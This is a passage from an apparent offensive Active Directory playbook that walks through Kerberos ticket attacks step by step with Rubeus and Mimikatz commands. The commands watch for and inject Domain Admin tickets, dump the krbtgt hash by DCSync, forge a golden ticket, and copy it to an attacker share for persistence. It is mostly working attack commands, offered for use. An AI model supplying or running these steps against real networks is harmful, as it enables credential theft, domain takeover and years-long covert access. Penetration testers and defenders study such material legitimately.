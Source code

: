 ```powershell
# 1. Monitor for high-value users
Rubeus.exe monitor /interval:5 /filteruser:Administrator

# 2. Wait for DA to RDP/access this machine
# (Could be minutes to hours)

# 3. When DA ticket captured:
# Rubeus auto-displays base64 ticket
# Copy base64 output

# 4. Inject ticket
Rubeus.exe ptt /ticket:BASE64_TICKET_HERE

# 5. Use DA access
dir \\DC01\C$
```

**Time: Depends on when DA authenticates (could be hours)**

---

### Scenario 3: Domain Admin Achieved, Want Persistence

**Goal:** Create golden ticket for long-term access

```powershell
# 1. Dump krbtgt hash (from DA account)
# Method A: Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
# Get NTLM hash

# Method B: Already have from secretsdump
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a2b3c4d5e6f:::
# NTLM hash: 1a2b3c4d5e6f

# 2. Get domain SID
whoami /user
# S-1-5-21-123456789-987654321-111222333-1108
# Domain SID: S-1-5-21-123456789-987654321-111222333

# 3. Create golden ticket
Rubeus.exe golden /rc4:1a2b3c4d5e6f /domain:corp.local /sid:S-1-5-21-123456789-987654321-111222333 /user:Administrator /outfile:golden.kirbi

# 4. Save ticket file securely (exfil, encrypt, hide)
copy golden.kirbi \\attacker-server\loot\

# 5. Later, re-inject for access:
Rubeus.exe ptt /ticket:golden.kirbi
```

**Time: 2 minutes**  
**Persistence: Years (until krbtgt password changed TWICE)**

---